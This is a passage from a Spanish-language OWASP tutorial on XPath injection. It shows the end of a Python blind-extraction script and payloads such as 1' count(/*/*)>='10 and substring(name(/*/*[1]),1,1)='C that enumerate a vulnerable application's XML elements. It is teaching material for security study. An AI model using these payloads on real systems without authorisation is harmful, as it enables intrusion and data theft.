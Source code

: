     			#print(len(r.text))
    			
    			# Comparación de cantidad de caracteres en la respuesta
    			if len(r.text) != 8681:
    				data+=character
    				p2.status(data)
    				break
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 18.png)

Ahora que se conoce el nombre del elemento raíz, se puede actualizar el nuevo archivo XML:

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 19.png)

### Cantidad de Elementos Hijos

Ahora que se conoce el elemento raíz, toca descubrir los elementos hijos. primero se descubrirá cuántos hay:

```bash
# Hace un conteo de la cantidad real de elementos hijo y 
# lo compara con un valor
1' count(/*/*)>='10
```

Como se puede ver, hay 10 elementos hijos

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 20.png)

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 21.png)

### Nombre de Elementos Hijos

Ahora toca descubrir el nombre de los elementos hijos

```bash
# Primero se podría probar tomando los primeros caracteres 
# y compararlos con un caracter para ver si todos los 
# elementos tienen el mismo nombre:
# Tomar el primer caracter del nombre de todos los 
# elementos hijos y compararlo con un caracter
1' and substring(name(/*/*),1,1)='C

# Si no tienen el mismo nombre, se podría tomar elemento
# por elemento:
# Tomar el primer caracter del primer elemento hijo y 
# compararlo con un caracter
1' and substring(name(/*/*[1]),1,1)='C
```
